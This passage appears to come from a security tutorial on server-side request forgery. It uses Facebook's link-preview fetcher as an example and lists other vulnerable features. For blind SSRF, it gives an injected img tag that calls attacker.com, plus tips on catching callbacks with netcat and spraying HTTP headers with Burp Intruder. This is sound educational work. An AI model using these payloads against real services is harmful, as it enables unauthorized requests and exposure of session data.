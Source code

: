 An example might be Facebook, which, upon referencing a remote resource in a private message, uses an internal server to fetch that resource and generate a miniature of it.

Once a URL is entered into Facebook’s message window, its server will perform a request to the remote resources. The user agent is named "facebookexternalhit", which suggests that this behavior is intended.

![](./assets/3.png)



Keep in mind that an SSRF attack can be conducted not only against "image import" utilities but any mechanisms that rely on fetching remote resources. In web applications, typically it can be:

- API specification imports (WSDL imports)
- Other file imports
- Connection to remote servers (e.g., FTP)
- "ping" or "alivecheck" utilities
- Any parts of an http request that include URLs



### Blind SSRF Exploitation

SSRF’s can also exist in "blind" form; for example, in document generators. If one is able to inject content into an online PDF generator, inserting something like the code below might likely lead to receiving a GET request from the parser server. It is because the server side content parser will try to evaluate the content before rendering the PDF.

```html
<img src=http://attacker.com:80/ssrf>
```

It will then parse the IMG tag and try to fetch the remote picture without knowing that it does not exist.



If a SSRF is received from a remote parser, it is worth inspecting the full request content (e.g., with a netcat listener) as it may contain interesting headers (including session IDs or technical information)

Another place where SSRF payloads can be inserted is HTTP request headers. You can, for example, place your domain in any HTTP header and look for HTTP or DNS resolution.

Burp intruder might be helpful in that task; for example, you can feed it with a list of [all HTTP headers](https://en.wikipedia.org/wiki/List_of_HTTP_header_fields) and assign your domain to each of them. It is possible that some of the intermediate proxies might try to resolve these domains.
